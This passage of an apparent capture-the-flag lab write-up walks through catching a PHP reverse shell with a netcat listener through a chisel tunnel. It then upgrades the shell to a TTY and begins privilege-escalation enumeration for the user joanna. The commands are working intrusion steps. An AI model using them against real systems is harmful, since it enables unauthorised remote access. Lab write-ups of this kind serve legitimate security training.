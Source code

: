 Then, on the attacker box, set a new firewall rule and start a netcat listener:

```bash
sudo ufw allow from 10.10.10.171 to any port 5555 proto tcp
bash
nc -lvnp 5555
```

and in a separate tab on the attacker box, trip the reverse shell with a GET request to it (this request goes through the tunnel created with **chisel**):

```bash
curl http://localhost:52848/php-reverse-shell.php
```

And there's the new shell!

![joanna rev shell](joanna%20rev%20shell.png)

Upgrade the reverse shell with the following:

```
SHELL=/bin/bash script -q /dev/null
export TERM=xterm256-color
[ctrl+z]
stty raw -echo
fg [enter] [enter]
```



## ROOT FLAG

### Joanna

Now that we have a nice shell as `Joanna`, it makes sense to enumerate the user by following my typical [Linux foothold strategy.](#Linux foothold strategy) Since the procedure is the same as always, I'll spare the details and skip right to the key results/findings:

- (1) showed that `joanna` is also a member of the ``internal`` group.
- (3) revealed `joanna` only has write access to ``/home/joanna`` and ``/var/www/internal``.

`joanna` has some sudo privileges (found by running **linpeas** as `jimmy`):

![joanna sudo](joanna%20sudo.png)
